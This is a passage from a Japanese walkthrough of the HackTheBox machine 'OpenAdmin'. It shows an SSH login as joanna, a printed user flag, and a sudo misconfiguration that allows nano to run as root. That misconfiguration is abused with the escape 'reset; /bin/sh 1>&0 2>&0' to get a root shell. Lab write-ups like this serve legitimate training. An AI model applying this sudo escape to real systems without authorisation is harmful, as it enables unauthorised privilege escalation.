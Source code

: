 ```sh

└─$ ssh -i id_rsa_joannna joanna@10.129.246.252
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jun  5 04:11:38 UTC 2025

  System load:  0.0               Processes:             183
  Usage of /:   30.9% of 7.81GB   Users logged in:       0
  Memory usage: 14%               IP address for ens160: 10.129.246.252
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15

joanna@openadmin:~$ cat user.txt
82af7fd85bec5082d6ea0cf6b62f3929

joanna@openadmin:~$ ls /root
ls: cannot open directory '/root': Permission denied
```


## STEP 7
`/bin/nano /opt/priv`がパスワードなしで実行できる
```sh
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
[リンク](https://gtfobins.github.io/gtfobins/nano/#sudo)どおりで権限昇格  
実行するとnanoが開いた、nano上でコマンド実行する  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/OpenAdmin_06.png">  
「Ctrl+r」からの「Ctrl+x」で次の画面、`reset; /bin/sh 1>&0 2>&0`をコマンド実行  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/OpenAdmin_07.png">  
すこし画面がバグるが、rootシェルを開くことができた  
ルートフラグゲット！  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/OpenAdmin_08.png">  
